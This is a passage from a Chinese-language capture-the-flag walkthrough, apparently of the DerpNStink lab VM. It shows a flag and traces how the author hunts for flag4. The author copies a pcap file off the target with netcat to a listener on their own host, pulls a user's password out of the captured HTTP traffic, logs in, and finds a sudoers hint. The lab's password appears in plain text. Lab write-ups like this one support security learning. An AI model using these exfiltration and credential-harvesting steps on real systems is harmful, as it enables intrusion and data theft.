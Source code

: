 ```
flag3(07f62b021771d3cf67e2e1faf18769cc5e5c119ad7d4d1847a11e11d6d5a7ecb)
```

继续找 flag4

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57aWa3zPgFA9btPI9icyy9ibY8VcZKkoiapXo8LNrhUicxa0sXNyrm9qyia6g/640?wx_fmt=png)

命令：strings Documents/derpissues.pcap | grep mrderp

继续查看第二个文件夹发现个 pcap 文件，进入查看获得用户 mrderp，把文件拷出到本地，用 wireshark 查看试试

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57sibxmCL0ZJ6btbMkN5pP6iaag3UZPILjBSt2hxaHAuBXCrD2Dj8ChVAg/640?wx_fmt=png)

```
nc 192.168.182.149 4444 < derpissues.pcap
```

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57Exv3icOxDOVQChwagABGRjvY4eEQd9GmRwEgMUlA7KYD5PHQxibOB1FA/640?wx_fmt=png)

```
nc -l -p 4444 > derp.pcap
```

导出后打开...  

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57mmgkWpZHAS5MPWiax6IZKBC77YfXOyEUIGBrDayPmThQt55Ptwhz1Ag/640?wx_fmt=png)

这里信息量很大，需要耐心寻找

选择 http 流量筛选，一个一个找下去...

找到了密码：

```
derpderpderpderpderpderpderp
```

进行登录！！！

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57mXMFaqHiabG6vDU736wF3Ur9phgNWIIBiaOqEBvajqd255JXWcCFDBSg/640?wx_fmt=png)

成功登录....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57RLNZeibwCFNw2RXafhPGlAj0Z3GLX6mPU2U60ticqBRAYMUBiadLN2xnQ/640?wx_fmt=png)

查看

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57DzsM6IEsE1fQLdbeRGESicsHib65d7NMoiarSlj8pV0A1JddYMVQFRQNA/640?wx_fmt=png)

```
Sudoers File issues
Self Help Web page at https://pastebin.com/RzK9WfGw
```

意思是让我们访问地址

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMAVke91NS1csbVjA1vwz57UqRxfdTCsWV03iaz4hiawgIdLCjHr40y5QVbEGofeV5Vdx5gNoPDgdmQ/640?wx_fmt=png)
